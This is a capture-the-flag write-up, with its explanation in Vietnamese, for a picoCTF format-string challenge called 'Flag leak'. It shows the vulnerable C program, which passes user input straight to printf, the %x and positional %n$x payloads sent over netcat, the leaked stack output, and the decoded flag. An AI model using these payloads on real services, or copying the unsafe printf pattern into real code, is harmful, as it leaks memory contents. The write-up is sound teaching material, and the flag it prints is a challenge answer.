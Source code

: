 ## Flag leak
# Description:
Story telling class 1/2

I'm just copying and pasting with this `program`. What can go wrong? You can view source `here`. And connect with it using:

`nc saturn.picoctf.net 64250`

# Source 
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
# Solution:
* Đầu tiên, ta biết được đây là file 32 bit
```
└─$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=17bb7adc72aff4022d6a1c451eb9adcf34df2f8c, for GNU/Linux 3.2.0, not stripped
```
* Mở source lên và thấy format string ở dòng print(story).
* Thử nhập vào chuỗi `%x%x%x%x%x` và đúng như mong đợi, chương trình đã in ra các giá trị hex trong stack.
```
└─$ nc saturn.picoctf.net 64250
Tell me a story and then I'll tell you one >> %x%x%x%x%x
Here's a story -
ffccee60ffccee8080493467825782578257825
```

* Nhập vào chuỗi 127 kí tự %x để leak hết trong flag, ta thu được dãy hex:
```
└─$ nc saturn.picoctf.net 64078
Tell me a story and then I'll tell you one >> %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Here's a story -
ffead6c0.ffead6e0.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.
```
* Decode dãy này thì thu được flag gần hoàn chỉnh `ocip{FTCk43L_gn1g4lFff0_4tS_` (in ở dạng hex nên sẽ bị đảo 4 byte một, săp xếp lại ta được `picoCTF{L34k1ng_Fl4g_0ff_St4`). Vấn đề ở đây là dùng story và bị giới hạn độ dài chuỗi in ra nên sẽ không thể in ra hết các giá trị trong stack, nên ta tiếp tục leak những giá trị ở sau
```
└─$ nc saturn.picoctf.net 64078 
Tell me a story and then I'll tell you one >> %42$x.%43$x.%44$x.%45$x.%46$x.%47$x
Here's a story -
3474535f.395f6b63.32653939.7d343238.fbad2000.e9c41d00
```
* Decode và thu được phần cuối của flag `4tS_9_kc2e99}428` => `_St4ck_eb9b46a2}`

Flag hoàn chỉnh: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}` 
